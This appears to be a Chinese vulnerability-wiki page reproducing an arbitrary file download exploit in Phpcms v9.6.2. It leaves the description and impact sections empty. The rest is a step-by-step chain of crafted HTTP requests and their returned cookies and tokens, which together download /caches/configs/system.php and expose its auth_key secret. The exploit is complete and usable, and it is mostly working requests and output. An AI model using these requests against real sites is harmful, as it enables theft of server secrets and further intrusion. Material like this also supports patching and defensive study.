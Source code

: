 Phpcms v9.6.2 任意文件下载
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 第一步:进行如下请求获得YDVIB\_siteid的值。

请求：

    [GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1

获得：

    [cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

##### 第二步:在\[POST DATA\] 中的userid\_flash参数的值设置为，第一步请求得到的YDVIB\_siteid参数的值，并进行如下请求。

请求：

    [GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

    [POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

获得：

    [cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g

##### 第三步:将GET请求中的a\_k参数的值设置为第二步请求获得的YDVIB\_att\_json参数的值，并进行如下请求。

请求：

    [get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw

获得：

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

##### 最后点击"点击下载"的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的'auth\_key'

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2任意文件下载/media/rId28.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
